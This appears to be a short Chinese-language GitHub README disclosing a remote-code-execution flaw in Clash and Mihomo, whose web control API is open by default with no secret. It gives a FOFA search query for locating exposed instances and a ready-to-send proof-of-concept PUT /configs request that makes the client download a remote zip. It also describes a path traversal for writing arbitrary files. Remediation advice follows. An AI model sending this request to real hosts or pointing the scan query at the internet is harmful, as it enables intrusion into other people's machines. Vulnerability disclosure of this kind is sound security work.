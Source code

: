 # Mihomo-RCE
Clash多版本存在该漏洞，如：Clash Verge。
漏洞版本：Clash ≤2.2.4 , Mihomo ≤v1.19.8


Clash的Web控制服务，默认开启的（默认端口为9090/9097）且默认空秘钥，且所有历史版本（Clash ≤2.2.4 , Mihomo ≤v1.19.8）都受此漏洞影响。

FOFA查询：body="\"hello\":\"mihomo\"" || body="\"hello\":\"clash\""

* POC
```
PUT /configs HTTP/1.1
Host: 127.0.0.1:9097
Connection: keep-alive
Content-Length: 196
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36 Edg/136.0.0.0
Content-Type: text/plain;charset=UTF-8

{"payload":"\n  external-ui: gY1bN0iF0kG2eN4z\n  external-ui-url: http://www.demo.com/demo.zip\n                external-ui-name: demo","path":""}
```
external-ui-url位置的远程文件http://www.demo.com/demo.zip可路径穿越，通过external-ui: ../../../tmp的方式，突破目录限制，实现任意文件写入。


*【安全修复建议】
1、将Clash客户端和Mihomo升级至已修复版本：
Clash>= v2.3.0
Mihomo >= v1.20.1
2、关闭不必要的服务端口
3、外部监听地址增加秘钥限制。
